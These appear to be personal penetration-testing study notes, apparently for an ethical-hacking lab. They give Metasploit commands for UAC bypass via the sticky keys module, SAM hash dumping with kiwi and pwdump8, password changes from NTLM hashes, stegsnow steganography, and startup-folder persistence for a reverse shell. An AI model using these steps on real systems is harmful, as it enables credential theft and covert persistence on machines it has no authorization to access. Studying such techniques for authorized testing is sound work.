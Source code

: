 ###### Bypassing UAC & Exploiting Sticky Keys
- Get Meterpreter Root Shell usnign above mentioned steps
- Background the session
- Use module windows/manage/sticky_keys
- exploit

###### Escalate Privileges & Gather Hashdump
- Get Meterpreter Root Shell usnign above mentioned steps
- `load kiwi`
- `help kiwi`
- `lsa_dump_sam`
- `password_change -u [username] -n [old NTLM Hash] -P [new password]`

Hash dump with pwdump8 and crack with JTR

wmic useraccount get name,sid --> Get user acc names and SID
https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip
`pwdump8.exe > c:\hashes.txt`

###### Stegnography

WhiteSpace Stegnography
`sudo apt install stegsnow`

To Hide Data
`stegsnow -C  -m "String that u need to hide" -p "password"  [file1.txt(old_file)] [file2.txt (output_File)]`
https://manpages.ubuntu.com/manpages/bionic/man1/stegsnow.1.html

To Read Data
`stegsnow -C  -p "password" [filename.txt]`

OpenStego - Windows Stegnography Tool

###### Maintain Persistence by Abusing Boot Logon Autostart
- Make 2 payload file one for getting meterpreter session & second one for dumping the payload to startup folder
 "use different ports for different payloads"
- Get Meterpreter Root Shell usnign above mentioned steps
- Background the session
- Escalate Privileges
- Place the payload file to startup loction 

`C:\\ProgramData\\StartMenu\\Programs\\Startup`

`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup`

- Restart the Windows Machine
- Get the Reverse Shell

###### Maintain Domain Persistence by Exploiting Active Directory Objects

######  Privilege Escalation Maintain Persistence using WMI

######  Covert Channels sing Covert_TCP
Download covert_tcp file 
>https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwisuI2Mirj8AhV4zzgGHanDDYAQFnoECAkQAQ&url
=http%3A%2F%2Fwww-scf.usc.edu%2F~csci530l%2Fdownloads%2Fcovert_tcp.c&usg=AOvVaw2iAVfjGEAO5q-aAqYVps1d
